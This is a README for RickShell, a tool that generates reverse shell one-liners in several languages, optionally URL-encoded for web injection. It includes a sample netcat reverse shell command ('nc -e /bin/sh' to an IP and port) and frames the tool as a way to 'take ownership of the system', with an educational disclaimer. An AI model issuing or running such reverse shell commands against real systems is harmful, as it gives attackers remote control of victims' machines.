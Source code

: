 
# 🧬 RickShell  


    ⠀⠀⠀⠐⣦⣴⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⣻⣿⣿⣿⡄⠀⠀⣿⠀⠀No shell, ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠈⠹⣯⣿⣿⡃⠀⠀⡿⠀⠀⠀⠀ no fun!⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⢀⣹⣟⣡⡤⠴⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⣠⡶⠋⢹⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣶⣿⣿⡄⠀⠀⠀
    ⠀⣼⠃⠀⠀⢀⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣿⣿⣿⡀⠀⠀
    ⢸⠇⠀⠀⠀⣼⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣶⣾⡟⣷⣂⣀⡤⠖
    ⠿⠊⠲⣶⠿⠛⠫⣶⣧⣀⣀⡀⠀⠀⠀⠀⣠⠞⠁⣴⣿⡿⠁⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⠀⠀⢀⡿⠀⠉⠉⣩⡿⠀⠀⠀⠉⠀⣼⣿⡿⠁⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⠀⠀⣼⠃⠀⠀⣰⠟⠀⢀⠀⠀⠀⢠⣿⣿⣁⠀⠀⠀⠀⠀⠀⠀
    ⠀⠀⠀⠀⢀⡼⠃⠀⠀⢴⣅⠀⠀⠉⠘⠲⠴⠟⠁⠈⠙⢷⡀⠀⠀⠀⠀⠀
    ⠀⠀⠀⣰⠟⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇⠀⠀⠀⠀⠀
    ⠀⠀⠰⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠁v1.3


use one of the reverse shell commands in this tool to take ownership of the system when you find a vulnerability that you can exploit ;-)

## 💡 HOW TO USE

`RickShell` command gives you the **top 10** most used shells. The tool will automatically type your ip address and a suitable port into the command.

### The following arguments can be used:

- `RickShell -p netcat` *netcat reverse shell commands.*

- `RickShell -p bash`   *bash reverse shell commands.*

- `RickShell -p php` *php reverse shell commands.* 

- `RickShell -p python` *python reverse shell commands.*

- `RickShell -p java` *java reverse shell commands.*
 
- `RickShell -p powershell`  *powershell reverse shell commands.*

- `RickShell -p telnet` *telnet reverse shell commands.*

---
_these commands automatically assign your ip address and port. 🪄_
 - e.g: `nc -e /bin/sh 192.168.100.23 4444  `

_but if you want to use a different ip and port, you can use the following arguments_

- `RickShell -ip 192.168.1.1 --port 4242`
- `RickShell -p bash -ip 192.168.1.1 --port 4242`  etc.
---
#### 🌐  if you are going to use it in the url, use the following command. this sets your shell command for the url (-ue)

- `RickShell -ue` / `RickShell -p bash -ue` / 
- `RickShell -ip 192.168.1.1 --port 4242 -ue` etc.

---

## 📜 Installation

`git clone https://github.com/Rickidevs/RickShell.git`

`cd RickShell`

`chmod +x setup.sh`

`./setup.sh`

---

## ⚖️  Disclaimer

_you are fully responsible for legal or illegal use. remember that this tool is designed for education_

---

✉️ Contact Me   - [Telegram](https://t.me/hackerrick)
